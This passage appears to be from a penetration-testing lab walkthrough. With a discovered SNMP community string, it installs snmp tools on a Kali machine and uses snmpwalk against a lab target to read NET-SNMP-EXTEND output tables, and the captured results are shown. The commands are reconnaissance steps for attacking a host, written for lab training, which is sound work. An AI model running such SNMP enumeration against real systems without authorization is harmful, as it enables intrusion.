 Since we know the community string 53cur3M0NiT0riNg, let's try querying it from our attack machine using snmpwalk with EXTEND. Before doing this, we'll have to install and update the following packages:

kali@kali:~$ sudo apt-get install snmp -y
kali@kali:~$ sudo apt-get install snmp-mibs-downloader -y

Next, we need to download MIB:

kali@kali:~$ sudo download-mibs

Finally, we'll set mibs +ALL in /etc/snmp/snmp.conf.

kali@kali:~$ cat /etc/snmp/snmp.conf
# As the snmp packages come without MIB files due to license reasons, loading
# of MIBs is disabled by default. If you added the MIBs you can reenable
# loading them by commenting out the following line.
mibs +ALL
...

Recall the following comment in the SNMP configuration file:

...
#  Walk the NET-SNMP-EXTEND-MIB tables (nsExtendConfigTable, nsExtendOutput1Table
#     and nsExtendOutput2Table) to see the resulting output
...

Noting the example of nsExtendOutput1Table, we can query the SNMP daemon on the target as follows:

kali@kali:~$ snmpwalk -v2c -c 53cur3M0NiT0riNg 192.168.120.138 nsExtendOutput1
Bad operator (INTEGER): At line 73 in /usr/share/snmp/mibs/ietf/SNMPv2-PDU
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test3" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test2" = STRING: Hello, world!
Hi there
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test3" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test1" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test2" = INTEGER: 2
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test3" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendResult."test1" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendResult."test2" = INTEGER: 8960
NET-SNMP-EXTEND-MIB::nsExtendResult."test3" = INTEGER: 32512
